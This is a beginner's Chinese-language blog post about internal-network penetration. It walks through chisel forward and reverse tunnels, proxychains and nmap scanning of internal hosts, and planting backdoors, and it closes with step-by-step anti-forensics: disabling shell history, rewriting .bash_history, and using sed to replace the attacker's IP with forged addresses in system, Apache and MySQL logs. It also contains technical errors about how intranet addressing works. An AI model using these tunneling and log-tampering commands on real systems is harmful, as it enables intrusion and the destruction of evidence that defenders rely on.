某菜鸟最近开始遇到涉及内网的题目，加上十分想出一道和内网有关的题，开始了对内网的学习之旅
我还是挺喜欢写菜鸟随笔的，可以完全放飞自我，然后写一点自己理解的叶不知道对还是错的东西
注：通篇都是某菜鸟自己的理解，如有错漏，那就去看看原文吧
内网的概念
内网，从一般概念来说，是指在一个局域网内建立的网络或办公网络，外网无法直接访问内网…..
好吧这都是废话，想了解的去参考地址www.baidu.com
CTF中一个很常用的概念，就是读取/etc/hosts来确定内网的存活主机，我也就从这里开始
首先明确几个概念
其一：内网的主机是没有真正意义的ip（内网的ip地址都是基于ARP协议对MAC地址的映射）的，内网的访问本质是MAC地址的访问，这个涉及ARP，不想多说
其二：学习反向代理时可以得到一个知识点，我们通过域名访问的服务器并不是真正的数据服务器，而是真正服务器的反代服务器，对于我们来说，真正的数据服务器就位于该网站的内网
其三：windows和Linux默认规则访问域名时首先查询hosts本机的hosts文件，Linux下的hosts文件有以下定义
- 作为DNS服务器，进行域名解析
- 两台主机只是双机互连时，这时两台主机都需要设置自己的ip，同时在对方的hosts文件里加入自己的ip和主机名。
- 加快远程登录linux主机速度
只是觉得双向主机很怪，为什么hosts可以记录存活主机，不懂
于是我问了下
总结一下就是，hosts并不能记录存活主机，它在CTF的作用是比赛时涉及内网了给个提示
在渗透测试中，建立内网通道后扫描到了子域名时，也可以在本机配置hosts用来访问内网中该子域名的资产
查看正在使用的服务器存活主机正确的做法是getshell后执行ifconfig命令
或者建立内网通道扫描存活主机

可以看到docker启动后多了一个ipv6的地址，这个地址相对于其他服务器，就属于内网了
使用docker inspect 8b2753a5f15e | grep “IP” 查看

内网渗透
从废话回归主题，这次我用了整整一天搞懂了内网渗透的过程并成功搞定了我自己的电脑，虽然有些地方我觉得自己挺憨的，但还是很开心，我希望我可以将这部分说明白
首先关于内网渗透方面在狼组安全文档中有很详细的说明
参考链接：https://wiki.wgpsec.org/knowledge/hw/border-info.html
简单来说，无论多么复杂的攻击，都可以分为四步
1、打穿外网
第一步，打出一个通向内网的入口，狼组文档中称为互联网边界打点
这一步可以分为两个点：信息收集和获取webshell
信息收集即收集被攻击方的资产信息，这里抄个图

详细的去看狼组文档，我这里也说不清楚
这里的目的实际上就是找到防护弱的点，通过进攻弱点得到webshell
这里并不局限于通过漏洞进攻，社工同样可行，只要拿到内网的一台主机并可以上传文件就算是成功
2、构建内网通道
通过外网事无法访问内网资源的，同样只是拿到webshell是无法攻击内网其他主机的，为了扩大成果或者不得不扩大成果，就需要继续进攻内网，这就是所谓的内网渗透
在对内网渗透时，首先要做的就是构建一条攻击机通往内网主机的通道，让攻击机可以去访问内网的资源，这也是我这次谈的重点，算是内网渗透的入门
这里需要借助代理工具，我使用的是chisel，参考链接有详细使用说明
参考链接：https://cloud.tencent.com/developer/article/1781919
这个工具的优点是体量小，只要上传一个文件就可以直接用，而且不会让一般的杀软报毒
chisel正向代理
chisel有两个模式，分别是server 和 client ,server为代理服务器使用，client为客户机使用，不过这说的是正常的使用模式
了解代理的师傅应该都知道正反的区别，正代指我们访问一个不可达的网站时，通过访问可达的一个“中介”，让“中介”去访问，然后将结果给我们
chisel正代的使用
简单说说chisel怎么用，这里以云服务器为受害机，我的主机为攻击机
chisel正代用于反代通道构建并成功探测到内网资源之后访问用，这里做个简单的演示
假设我现在已经对服务器getshell，可以上传文件，并且已经得知有个内网地址为172.17.0.13，那么我将chisel上传上去，然后执行
./chisel server -p 1234

然后主机执行
chisel client -v xxx.xxx.xxx.xxx:1234 3000:172.17.0.13:80
// 连接受害服务器1234端口，并将其内网172.17.0.13的80端口映射到攻击主机的3000端口

接着本地访问localhost:3000,就可以访问到内网资源

接下来就可以对该内网网站进行渗透攻击
将服务器中内网docker容器映射到攻击机3000端口



正代成功，可以对内网网站进行攻击了
chisel反向代理
反代是指将自已的信息给中介，有人来找我们直接通过中介就行，中介得到我们的回复后再传话给委托人
内网通道的建立就是用了反代的思想，让攻击机作为中介方兼任委托人，达成访问内网资源的目的
刚说了正代可以将受害主机内网地址映射到攻击主机端口，反代就可以建立攻击机到受害内网的通道，在此基础上进行一系列的攻击
chisel反代的使用
这里以公网云服务器为攻击机，自己的主机为受害机
受害主机执行
chisel client xxx.xxx.xxx.xxx:1080 R:socks

R参数意为反向Socket
攻击服务器执行
./chisel server -p 1234 --reverse

出现红框文字即为反代成功、
正向即服务器来接收客户端数据，反向指由客户端接收服务器数据，反向时服务器加–reverse，客户端加R
proxychains4执行代理
成功后即可使用proxychains4去执行
正常不使用代理执行：

使用代理执行：

可以明确的看到使用代理执行后ip地址变成了被攻击机ip，即内网通道构建成功
proxychains的安装配置
这里一并把踩得坑都说了
// 安装
apt install proxychains4
proxychains命令需要配置两个点，都在/etc/proxychains.conf文件中
首先是最后，需要注释socks4 然后添加socks5 ，配置如下，这使得proxychains可以正常发送请求到被攻击主机

然后是中间位置需要注释代理的DNS解析

这确保了可以正常使用nmap等工具对内网进行扫描
流量分析
这里我特意抓了一下流量看了看，算是了解一下怎么辨别这种攻击
首先是反代流量

可以很明显的看到，反代在攻击的前后，有一个很明显的代理访问请求
攻击前传输命令，攻击后将命令发送回服务器，所以通过这种方式去观察流量包，可以获取对方的真实ip/代理ip地址
所以参考文章说无法获取攻击者ip不成立，这个代理现象很明显，最妥当的方法是想办法给攻击服务器上一层代理
不过这个我还不会。当然chisel提供了解决方案
–backend,此选项用于指定被攻击方何事收到http请求
然后是正代流量
开启正代，抓取服务器流量

只能看到攻击机公网ip和目标内网的交互，无法做到准确的辨别，也没有队80端口的访问记录，所以只要将端口选取的不那么突兀，就不会被轻易发现
3、proxychains 命令使用代理扫描内网
这里只以nmap做演示
proxychains nmap -sT -Pn -T4 172.17.125.0/24 -oG res.txt 命令随意
内网通道构建成功，想用什么扫用什么扫，不局限nmap，只由一点需要注意，chisel是基于TCP建立的链接，所以需要使用nmap的-sT选项，并且禁用ping

扫描到内网的ip和端口后，就可以构建正代通道或使用其他方法对内网服务器进行攻击，挨个的控制内网服务器，构建正代的优点就是可以像打公网服务器一样去打内网
然后一个个的留下后门维持权限，以备后用
这里再说一个命令：
screen 将执行的程序放到新窗口运行
常用：
screen -S name 开启一个名为name的新窗口
screen -r name/session_id 连接/进入开启的一个窗口
screen -ls 显示所有窗口
screen -d name/session_id 关闭指定窗口
screen -X -S session_id quit 杀死指定窗口进程
通过执行-ls 可以判断自己是处于那个窗口

如图后面为Attached，说明我们现在处于123窗口中
扫描的过程是非常慢的，使用这个命令可以让我们不用始终盯着xshell，可以去做其他事
4、清理日志，悄悄离开
需要清理的日志一共有三种。bash、系统、应用
bash命令日志
bash命令日志就是history命令记录的操作信息
history的所有结果都是保存在root目录下.bash_history这个文件中，所以只要删除这个文件，就可以清除全部的命令

当然，如图所示，会留下删除的命令，而且直接清空其实并不隐蔽，很容易被发现，所以需要先关闭history的记录，然后配合sed命令进行修改
先看看HISTSIZE的值，以备后续恢复

然后执行
export HISTSIZE=0
或者
export HISTSIZE=/dev/null

如图，history没有记录ls
此时对.bash_history进行操作，就不会留下痕迹
这里建议使用sed命令
sed "s/rm .bash_history/ls/g" -i .bash_history 将rm .bash_history 改为ls


改完所有痕迹后将HISTSIZE还原回去，当然这里其实没有必要，通过export执行的修改只是临时的修改，仅仅作用在当前的窗口，不影响整体的环境值
所以直接关闭这窗口就行

这样history日志就没有留下任何的痕迹
系统日志
| 日志文件 | 说明 |
|---|---|
/var/log/btmp |
记录**错误登录（登陆失败）**日志；使用**lastb**命令查看 |
/var/log/lastlog |
记录系统中所有用户最后一次成功登录时间，使用lastlog命令查看 |
/var/log/wtmp |
永久记录所有用户的登录、注销信息，同时记录系统的启动、重启、关机事件；用last命令来查看 |
/var/log/utmp |
只记录当前登录用户的信息；使用w,who,users等命令来查询 |
/var/log/secure |
记录验证和授权方面的信息，如SSH登录，su切换用户，sudo授权，甚至添加用户和修改用户密码（Centos） |
Linux系统自带五个系统日志分别对不同情况进行记录，保存的功能如上，通过同修改history的手法全部修改即可
应用日志
即WEB日志，包括apache2，mysql，nginx等服务器上可能会记录我们操作的所有程序，较为繁杂
这里直接贴狼组文档的描述
apache日志
sed ‘s/192.168.1.3/8.8.8.8/g’ –i /var/log/apache/access.log
sed ‘s/192.168.1.3/8.8.8.8/g’ –i /var/log/apache/error_log
#其中192.168.1.3是我们的IP，8.8.8.8是我们伪造的IP
MySQL日志文件
log-error=/var/log/mysql/mysql_error.log #错误日志
log-slow-queries=/var/log/mysql/mysql_slow.log #慢查询日志
sed 's/192.168.1.3/8.8.8.8/g' –i /var/log/mysql/mysql_error.log
sed 's/192.168.1.3/8.8.8.8/g' –i /var/log/mysql/mysql_slow.log
php日志处理
sed 's/192.168.1.3/192.168.1.4/g' –i /var/log/apache/php_error.log
windows日志的处理参考https://wiki.wgpsec.org/knowledge/hw/log-action.html#windows%E6%97%A5%E5%BF%97%E5%A4%84%E7%90%86
我不懂windows方面，所以这里不谈windows
最后总结一下内网渗透的四个步骤
1、通过公网打进内网
2、建立通道持续攻击
3、留下后门维持权限
4、清除痕迹安然离开
+++
至此，一个完整的内网渗透就完成了，不过具体操作具体执行，先不说打进去能不能控制内网服务器，单提能不能打进去，我觉得够呛
+++